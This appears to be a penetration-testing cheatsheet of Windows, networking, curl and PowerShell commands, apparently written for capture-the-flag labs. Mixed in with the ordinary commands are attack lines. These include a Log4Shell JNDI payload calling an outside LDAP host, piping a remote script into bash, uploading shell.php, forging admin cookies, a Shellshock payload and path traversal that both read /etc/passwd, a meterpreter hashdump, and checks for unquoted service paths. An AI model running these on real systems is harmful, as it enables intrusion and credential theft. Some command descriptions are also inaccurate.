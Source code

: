 # Windows commands cheatsheet

## Summary
* [Basic system commands](#basic-commands)
* [Networking commands](#networking-commands)
* [Curl](#curl)
  * [Curl logic](#curl-logic)
  * [Change HTTP methods](#change-http-methods)
  * [Send a silend GET request](#send-a-silend-get-request)
  * [Send a POST request](#send-a-post-request)
  * [Set cookie for a request](#set-cookie-for-a-request)
  * [Sending POST data with HTTP headers](#sending-a-post-data-with-http-headers)
  * [Cookie tampering with curl](#cookie-tampering-with-curl)
  * [Upload files](#upload-files)
  * [Run bash script cross site](#run-bash-script-from-local-machine-on-remote-machine)
  * [Download files](#download-files)
  * [Grep details from requests](#grep-details-from-requests)
  * [Test for Shellshock vulnerability](#test-for-shellshock-vulnerability)
  * [Send data as it is](#send-data-as-it-is)
  * [Crawl web paths in robots.txt](#crawl-web-paths-in-robots.txt)
* [Powershell script](#powershell-script)
  * [Find unquoted service paths](#find-files-with-unquoted-service-paths)
  * [See permissions of a file](#see-permissions-of-a-file)
  * [See if user has permission](#see-if-user-has-modify-permissions)

## Basic system commands
```
whoami
whoami /priv
whoami /groups
cd --> change directory
dir --> list directory
dir /a:hd --> list hidden files
dir "test.txt" /s --> find a file
type *filename* --> read file
echo "text" --> text output
net user *username* --> change user password without acknowledge previous password
net view *hostname* --> list computers, services or domains
tasklist --> list all operational tasks
taskkill /PID *1532* /F --> kill a task
iexplore --> run applications
cls --> clear screen
date --> shows date
find *filename* --> find files
hostname --> display host name
runas --> start a program as other users
attrib *filename* --> display file attributes
comp *filename1* *filename2* --> compare file contents
copy || xcopy --> copy files
del || erase --> delete files
mkdir --> create new directory
move --> move
rename --> rename files
rmdir || rd --> delete directories
tree --> display folder structure
run(WIN+R) 'recent' --> files that has been modified recently
hashdump --> dump hash using meterpreter
```

## Networking commands
```
ping *8.8.8.8* --> see if a host is reachable 
nslookup *google.com* --> DNS IP resolution
tracert *8.8.8.8* || tracert *google.com* --> follow the route of an IP address
arp -a --> shows the arp table
route print--> display routing table,portal,interface & metric
ipconfig --> displays all network informations
ipconfig /all --> displays more informations
ipconfig /release --> release IP address
ipconfig /renew --> renew IP address
netstat --> display status of connection
netstat -ant --> display tcp connections
netstat -anu --> display udp connections
netstat -a --> display listening ports & connections
netstat --> display all open IP addresses
pathping.*google.com* --> shows more informations of an IP routes
```

## Curl
### CURL LOGIC
```
Curl 'http://10.10.189.232:8983/solr/admin/cores?foo=$\{jndi:ldap://10.4.64.135:4444\}'
If there is a $ sign in your url, then you should wrap the url with single quotes
Escape out of the {} curly braces with a single backslash character
```
### Change HTTP methods
```
curl -X [methods] [url]
```
### Send a silend GET request
```
curl -s [url]
```
### Send a POST request
```
curl -i [url] --data '[data]'
```
### Set cookie for a request
```
curl -i [url] -b "name:value"
```
### Sending a POST data with HTTP headers
```
curl '[url] -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=[username]&email=[host email]'
```
### Cookie tampering with curl
```
curl [url] -H 'Cookie: logged-in=true; admin=true'
```
### Upload files
```
curl [url] -u [creds:creds] --upload-file shell.php
```
### Run bash script from local machine on remote machine
```
curl [ip]:[port]/[file name] | bash 
```
### Download files
```
curl [url] --output [file]
```
### Grep details from requests
```
curl -s [url] | grep img
```
### Test for Shellshock vulnerability
```
curl -H 'User-Agent: () { :; }; echo ; echo ; /bin/cat /etc/passwd' bash -s :'' http://10.10.155.108//cgi-bin/test.cgi
```
### Send data as it is
```
curl --path-as-is http://example.com/.././../etc/passwd
```
### Crawl web paths in robots.txt
```
for i in `curl -s http://wekor.thm/robots.txt | grep Disallow | cut -d " " -f2`;do echo $i;curl -I http://wekor.thm$i;echo "---";done
```

## Powershell script
### Find files with unquoted service paths
```
Get-WmiObject -Class Win32_Service | Where-Object { $_.PathName -inotmatch "`"" -and $_PathName -inotmatch ":\\Windows\\" }| select name,pathname
```
### See permissions of a file
```
Get-Acl -Path "C:\projects\openclinic\mariadb\bin\mysqld.exe" | select *
```
### See if user has modify permissions
```
(Get-Acl -Path "C:\projects\openclinic\mariadb\bin\mysqld.exe").Access
Get_Acl C:\projects | select *
```

